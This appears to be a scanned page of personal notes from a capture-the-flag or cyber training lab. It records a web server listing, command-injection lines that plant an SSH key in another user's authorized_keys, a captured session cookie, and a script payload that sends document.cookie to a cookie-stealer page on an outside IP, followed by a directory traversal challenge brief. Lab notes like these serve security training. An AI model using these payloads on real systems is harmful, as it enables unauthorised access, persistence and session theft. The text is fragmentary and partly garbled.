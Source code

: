 
total 52 drwxr-xr-x 7 root root 4096 Apr 19 2022 . drwxrwxr-x 3 root www-data 4096 Apr 19 2022 .. -rw-r--r-- 1 root root 967 Mar 23 2022 Contract_bids.html drwxr-xr-x 2 root root 4096 Dec 13 11:12 TT drwxr-xr-x 2 root root 4096 Apr 19 2022 css -rw-r--r-- 1 root root 263 Mar 23 2022 db_recover.php -rw-r--r-- 1 root root 890 Mar 23 2022 fileUpload.php drwxr-xr-x 2 root root 4096 Apr 19 2022 images -rw-r--r-- 1 root root 2465 Mar 23 2022 index.html drwxr-xr-x 2 root root 4096 Apr 19 2022 net_test -rw-r--r-- 1 root root 34 Mar 23 2022 robots.txt -rw-r--r-- 1 root root 3280 Mar 23 2022 style.css drwxrwxrwx 2 root root 4096 Dec 14 18:15 uploads drwxrwxrwx 2 root root 4096 Dec 14 18:15 uploads


Found billybob and his current default directory: /bin/bash  And /home/billybob as the main directory ; ls -al /var/www/html --- to view other directories


my ssh keys: 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+ShHz+32iRy5PXvEQSEnn3yOK9azmn6tK+Ld8rpJkGg1Oyuq8hpq7YCmbS246hKLGytcqS9QKaC5xYojc/XjkdLzyAh8B1Ji2EPBMkVf2kpkXpS7uoYM0EvMm5j7Q2SakFdeDdLKgAUaY73JBkZmwSxi5GsJz6ZhE/x+92pFNDzcyXs4gyri+ME2ctmxVeSViOBtRONhjSrdTHePKekSPE4eKO4fEKrVFC8/QT7liTjNuCScNnw72TBys+4ZyrcSlj3yyEgs5Rrw3TpgkS+VS/tSpFf2lljuCmU0f/IXLW73q5/JdeiMEQqSFuV2SD2D9P+Eq92ES0HugQUz30yGR


; ls -la /home/billybob/.ssh/

mkdir /home/billybob/.ssh


;echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+ShHz+32iRy5PXvEQSEnn3yOK9azmn6tK+Ld8rpJkGg1Oyuq8hpq7YCmbS246hKLGytcqS9QKaC5xYojc/XjkdLzyAh8B1Ji2EPBMkVf2kpkXpS7uoYM0EvMm5j7Q2SakFdeDdLKgAUaY73JBkZmwSxi5GsJz6ZhE/x+92pFNDzcyXs4gyri+ME2ctmxVeSViOBtRONhjSrdTHePKekSPE4eKO4fEKrVFC8/QT7liTjNuCScNnw72TBys+4ZyrcSlj3yyEgs5Rrw3TpgkS+VS/tSpFf2lljuCmU0f/IXLW73q5/JdeiMEQqSFuV2SD2D9P+Eq92ES0HugQUz30yGR" >> /home/billybob/.ssh/authorized_keys



 cat /home/billybob/.ssh/authorized_keys
PHPSESSID:"f2lh61den5tp2k8pvglcua4qii"

 <script>document.location="http://10.50.20.97/Cookie_Stealer1.php?username=" + document.cookie;</script>



 Training Website

We have an asset that is trying to gain employment into the Ministry, however intelligence does not know the IP address of training web site. Our asset has stated that the training site may only be communicated with from the Ministry web site. We have reason to believe that the MI website might have a message saved inside the web server directory. Once we have located the address analyze that website and determine how to produce a certificate of completion, utilizing the Cyber Training Portal.

The flag will be dumped when successful

# Create a dynamic channel to spin this server up.... tunnel to 9050

10.100.28.55 

Go through the cyber awareness training.... open firefox to view the website.... 

Directory Traversal
5
Level II Challenge
Training Website
